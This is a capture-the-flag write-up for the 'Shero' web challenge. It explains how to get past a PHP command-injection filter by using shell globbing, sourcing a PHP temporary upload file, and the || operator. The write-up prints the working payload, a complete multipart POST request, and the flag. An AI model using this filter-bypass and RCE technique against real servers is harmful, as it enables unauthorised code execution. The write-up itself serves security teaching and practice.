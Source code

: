 # Web - Shero (491)

## Challenge

```php
Warning: Undefined array key "f" in /var/www/html/index.php on line 2
<?php
    $file = $_GET['f'];
    if (!$file) highlight_file(__FILE__);

    if (preg_match('#[^.cat!? /\|\-\[\]\(\)\$]#', $file)) {
        die("cat only");
    }

    if (isset($file)) {
        system("cat " . $file);
    }
?>

Deprecated: preg_match(): Passing null to parameter #2 ($subject) of type string is deprecated in /var/www/html/index.php on line 5
```

We can only execute system commands using the `?f=` GET parameter which has a rather strict regex. Using the following script, we can enumerate the possible characters we can use.

```python
from string import printable
import re
pattern = "[^.cat!? /\|\-\[\]\(\)\$]"

alphabet = ''
for i in printable:
    if(not re.search(pattern, i)):
        alphabet += i
print(alphabet)
```

Which gives us the following alphabet.

```
act!$()-./?[]|
```

I'll list a bunch of interesting properties of the characters we have that we can leverage

| Character | Utility                                                                                                                                                                                                                                                                                                                                                                                              |
| --------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `$()`     | Can be used for command substitution (but not needed for our exploit).Some more info [here](https://stackoverflow.com/questions/17984958/what-does-it-mean-in-shell-when-we-put-a-command-inside-dollar-sign-and-parenthe)                                                                                                                                                                           |
| `?`       | Can be used as wildcards, e.g. `???/???/?at` can refer to `/usr/bin/cat`                                                                                                                                                                                                                                                                                                                             |
| `\|`      | Pipe operator, can be used to transfer the output of the first command to subsequent commands. More suitably used to run multiple commands. Alternatively can also be used as an `\|\|` OR operator to run 2 commands (or more)                                                                                                                                                                      |
| `.`       | While typically it usually just refers to the current working directory or relative path notation, it actually also can mean to use the current Bash environment context to read and execute commands in a file. E.g. `. /hello` means to execute commands in the `/hello` file. See more [here](https://www.shell-tips.com/bash/source-dot-command/#gsc.tab=0)                                      |
| `[x-y]`   | Globbing! A very critical part of our exploit, this basically allows us to select that the current character's ASCII must be anywhere between the ASCII of `x` and the ASCII of `y`. To give an example, a command like `/usr/bin/[b-d]a[s-u]` will match the command `/usr/bin/cat`. This is critical for us to filter out certain files while globbing especially given our limited character set. |

This solution may have been an unintended one but basically when you send a `POST` request to a php server, it uploads your file into a default folder of `/tmp/phpxxxxxx` where the `x` characters are random upper and lower case letters. This is perfect for us to guess as we can use the `?` glob wildcard characters to access this file.

However, there's a small problem, given the characters of our alphabet, we can only construct `/???/?????????` to access such a file and there are wayyy too many files that have such a path.

We need a way of filtering out the useless files and only select our file. And we have just nice the operators `[-]` which can allow us to filter out certain characters. We want to only match uppercase characters (each command may have to try multiple times in hopes of matching the appropriate file you want), so from our character set we can use `[?-]]` which matches the ASCII range of 63-93, a bit wider than needed but will suffice for our purposes.

Now we have remote code execution!

The `GET` parameter payload is

```
a||. /???/????????[?-[]
```

Note: We just use an invalid command `a` for the first part which will fail and thus trigger the second command after the `||` operator.

Here's the full payload (with url encoded parameters)

```
POST /?f=a%7C%7C.%20/???/????????%5B?-%5B%5D HTTP/1.1
Host: challs.nusgreyhats.org:12325
Connection: close
Accept-Encoding: gzip, deflate
Accept: /
Content-Length: 109
Content-Type: multipart/form-data; boundary=deadbeef

--deadbeef
Content-Disposition: form-data; name="file"; filename="file"

ls -la
--deadbeef--
```

We can discover that there is a `/readflag` binary and a `flag.txt` in the root directory but it seems that we don't have sufficient permission to directly read out the `flag.txt`. We can `cat` out the binary and see what's the next step.

![binary](../images/shero-2.png)

It seems that we just need to pass in the jumbled up parameter `sRPd45w_0` to the binary to read the flag. Given that we have full RCE, it is pretty trivial to read it out

## Flag

![solve](../images/shero.png)

```
grey{r35p3c7_70_b45h_m4573r_0dd14e9bc3172d16}
```

## Note

All credits to @Al1enX for this first blood solve
Ref: [here](https://m.freebuf.com/articles/network/279563.html)
